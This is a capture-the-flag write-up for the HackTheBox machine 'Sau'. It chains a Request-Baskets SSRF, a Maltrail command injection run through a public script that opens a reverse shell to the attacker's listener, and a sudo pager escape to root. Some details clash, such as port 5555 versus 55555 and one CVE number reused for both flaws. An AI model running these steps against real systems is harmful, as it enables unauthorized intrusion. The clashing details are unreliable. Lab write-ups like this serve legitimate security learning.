






Sau
Path To Root: SSRF → internal panel access → unauthenticated command injection → user shell → sudo misconfiguration → root.
Synopsis🔗
Sau is an easy-level HTB box that runs a Request-Baskets instance vulnerable to SSRF (CVE-2023-27163). It gave me a solid, hands-on understanding of Server-Side Request Forgery (SSRF). By abusing that flaw I was able to a filtere Maltrail panel that is vulnerable to unauthenticated OS-command injection. One payload later, I landed a reverse shell as the user puma. From there a sloppy sudo configuration handed me root.
Skills Required🔗
- Web Enumeration
- Linux Fundamentals
Skills Learned🔗
- Command Injection
- Server Side Request Forgery
- Sudo Exploitation
Enumeration🔗
1. Nmap🔗
nmap -sV 10.10.11.224

The nmap scan reveals that OpenSSH is running on the default SSH port (22). Port 80 appears to be filtered, likely due to a firewall rule restricting inbound HTTP traffic. Additionally, an HTTP service is accessible on port 5555, which indicates a non-standard web service might be running there.
2. Request‑Baskets SSRF to Maltrail🔗
Since port 80 is filtered, I started exploring port 55555, which revealed a Request Baskets instance running. Request Baskets is a web service that collects HTTP requests via a RESTful API.
I noticed the version was 1.2.1, and after a quick Google search, I found that this version is vulnerable to CVE-2023-27163: a Server-Side Request Forgery (SSRF) via the /api/baskets/{name} component, which allows attackers to make internal requests to services that should be unreachable.

I immediately thought of targeting the filtered HTTP port 80 by forcing the application to make a request to it. I searched for some PoC scripts and found one that sets up a proxy basket to relay requests to an internal service.
To exploit it, I used the following command to trigger a request to the internal web service running on port 80:
bash ./exploit-basket.sh http://10.10.11.224:55555/ http://127.0.0.1:80

Following the exploit, I was able to access the crafted URL, which successfully forwarded the request to the internal port 80. This revealed a Maltrail instance running on version 0.53, which is vulnnerable to Unauthenticated Remote Code Execution (RCE) (CVE-2023–27163).
🔗
Foothold🔗
I searched for a proof-of-concept exploit and found a script that constructs a curl command to send a payload to the target URL through the login endpoint, which opens a shell on the victim machine.
I set up a netcat listener on port 4444 on my machine (attacker machine), and ran the script with:
python3 exploit-maltrail.py 10.10.14.9 4444 http://10.10.11.224:55555/qmhvxq
I obtained a shell on the target and was able to get the user flag.

Privilege Escalation🔗
The first thing I checked for privilege escalation was sudo permissions for the user puma. I discovered that this user can run /usr/bin/systemctl status trail.service with sudo and no password.

I knew that systemctl status pipes output through less by default when the output is long. Since we're running the command with sudo, it opens less as root, which can be exploited.
One trick with less is that you can escape to a shell by typing !. So I entered ! and got a root shell.

Exploitation Scripts🔗
| Script | Author | Source |
|---|---|---|
exploit-basket.sh |
Iyaad Luqman K | Request-Baskets 1.2.1 |
exploit-maltrail.py |
spookler (Github) | Maltrail-v0.53-Exploit |